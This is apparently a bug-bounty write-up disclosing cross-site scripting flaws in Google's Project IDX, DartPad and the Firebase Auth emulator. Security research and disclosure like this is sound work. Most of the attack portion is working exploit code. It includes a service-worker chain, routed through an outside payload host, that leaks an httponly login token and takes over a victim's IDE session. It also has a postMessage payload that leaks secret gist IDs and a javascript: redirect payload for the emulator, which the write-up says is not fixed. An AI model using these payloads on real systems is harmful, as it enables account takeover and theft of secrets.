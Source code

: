 ```yaml
---
title: idx.google.com XSS (Awarded $3133.70)
---
```


This is a hosted development environment called Project IDX based on [Visual Studio Code](https://github.com/microsoft/vscode) like [Google Cloud Shell](https://cloud.google.com/shell/)

Feature being abused: <https://developers.google.com/idx/guides/debug-in-idx#chrome-devtools>  
Its based of the Chii open source project <https://github.com/liriliri/chii/commit/0002b761737f450fe070699b6fec284d6e1e91e9>

- Create a project as simple html.  
- Once loaded, Take the `ID` from an iframe in the format `https://9000-monospace-<ID>.cloudworkstations.dev` (In a real attack this could be leaked from the network)
- Run the following from any website replacing `ID` with your own ID.

```js
// Vulnerable debugger proxy (Runs any js code you want, Fetch as the victims server)
let target = 'https://8282-monospace-<ID>.cloudworkstations.dev/proxy?url=';

// Link to our service worker
let proxy = new URL('https://terjanq.me/xss.php');
proxy.searchParams.set('ct', 'application/javascript');
proxyPayload = `
self.addEventListener("fetch", (event) => {
 let url = event.request.url;
 // Leak token from redirect since its a httponly cookie
  // Authentication is done by:
 // Redirecting the user to https://ssh.cloud.google.com/devshell/gateway/oauth?state=<value> (Cross-site, COOP, embed protection)
 // https://<PORT>-idx-<ID>.cloudworkstations.dev/_workstation/login?redirect=<value> this sets a cookie then redirects back.
 if (url.includes("_workstation/login")) {
  console.info('🎉 Leaked token: '+url);
 }
});
`;
proxy.searchParams.set('html', proxyPayload);

// Link to force a re-authenticate
let reauth = new URL('https://terjanq.me/xss.php');
reauth.searchParams.set('h[Clear-Site-Data]', '"cookies"');
reauthPayload = `
setTimeout(() => { location.href=location.origin }, 3000);
`;
reauth.searchParams.set('js', reauthPayload);

// Link to create service work
let setup = new URL('https://terjanq.me/xss.php');
setupPayload = `
navigator.serviceWorker.register("${target+encodeURIComponent(proxy.href)}");
setTimeout(() => { location.href="${target+encodeURIComponent(reauth.href)}" }, 3000);
`;
setup.searchParams.set('js', setupPayload);

// Do the stuff
location = target + encodeURIComponent(setup.href);
```
- In the console you should see a message that says "leaked token" of the format `https://8282-monospace-<ID>.cloudworkstations.dev/_workstation/login?redirect=<secret>` in a new browser go to that URL and you will be logged in to the debugger.
- You will have got a `WorkstaionJwt` from that by changing the domain of this cookie for example to `80-monospace-<ID>.cloudworkstations.dev` you can login to the IDE!

# Pointless XSS section :)

## DartPad XSS (dartpad.dev)
This is an editor for Dart code.

By abusing the XSS in `frame.html` it allowed putting interactive content on other people's websites
that use the code embed via a popup window reference which is a spoofing risk especially if providing API keys on that site is expected behavior also It's leaking injected snippets or secret gists of that site.
```js
// Please click, Opening a victim popup needs user activation
onclick = () => {
    let frame = document.createElement('iframe');
    frame.src = 'https://dartpad.dev/frame.html';
    document.body.appendChild(frame);

    payload = `
 // XSS running on the dartpad.dev origin (instead of null)
 let win = open('https://terjanq.me/xss.php?html=%3Ciframe%20src=%22https://dartpad.dev/?id=5c0e154dd50af4a9ac856908061291bc?theme=light%22%3E%3C/iframe%3E');
 setTimeout(() => {
  // Leak the secret gist ID of a cross-site embed
  alert('Leaked: ' + win[0].location.search);
 }, 2000);
`;

    frame.onload = () => {
        frame.contentWindow.postMessage({
            command: 'execute',
            js: payload
        }, '*');
    };

};

```
This was fixed in <https://github.com/dart-lang/dart-pad/pull/2943> by enforcing the`null` origin sandbox.

## Firebase Authentication Emulator XSS (localhost) Not fixed
This is a local test environment for Firebase.

<https://github.com/firebase/firebase-tools/blob/80964d04ee34b204116be6139e76ad96f427a06d/src/emulator/auth/widget_ui.ts#L65>

Navigates to a `javascript:` path provided in the `redirectUrl` URL parameter for example, `/emulator/auth/handler?apiKey=1&providerId=1&redirectUrl=javascript:alert(origin)&appName=1`
Other emulator XSS, <https://github.com/firebase/firebase-tools/blob/96fe35f4a38736f16a183c76a53112a7b86b2487/src/emulator/functionsEmulator.ts#L1554-L1556>
